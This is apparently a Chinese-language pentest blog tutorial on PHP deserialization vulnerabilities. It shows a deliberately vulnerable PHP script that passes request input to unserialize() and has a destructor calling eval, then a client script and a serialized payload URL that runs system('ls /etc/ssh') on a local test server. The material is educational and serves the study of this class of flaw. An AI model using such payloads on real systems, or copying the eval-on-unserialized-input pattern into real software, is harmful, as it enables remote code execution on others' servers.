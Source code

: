 +++
date = "2016-07-25T23:32:52+08:00"
description = ""
draft = false
tags = ["deserialize"]
title = "PHP反序列化漏洞"
topics = ["Pentest"]

+++
<!--
 * @Author: reber
 * @Mail: reber0ask@qq.com
 * @Date: 2019-04-10 10:45:01
 * @LastEditTime: 2019-07-25 12:36:08
 -->

### 0x00 关于反序列化漏洞
序列化：使用函数serialize()可将实例序列化为字符串  
反序列化：使用函数unserialize()可将序列化的字符串还原  

* 服务端有test.php，代码如下

```php
<?php
    class fun{
        public $msg;
        function __construct(){
            echo '__construct';
        }
        function __destruct() {
            eval($this->msg);
        }
    }

    $d = $_REQUEST['str'];
    var_dump($d);
    echo "<br />";
    $tc = unserialize($d);
    var_dump($tc);
?>
```

* 客户端可构造如下代码生成序列化后的字符串

```php
<?php
    class fun{
        public $msg;
        function __construct(){
            echo '__construct';
        }
        function __destruct() {
            eval($this->msg);
        }
    }

    $f = new fun();
    $f->msg = "system('ls /etc/ssh');";
    echo serialize($f);
?>
```

生成的序列化字符串为：```O:3:"fun":1:{s:3:"msg";s:22:"system('ls /etc/ssh');";}```

* 提交序列化字符串给服务端从而执行命令

访问```http://127.0.0.1/test.php?str=O:3:"fun":1:{s:3:"msg";s:22:"system('ls /etc/ssh');";}```即可得到/etc/ssh下的文件
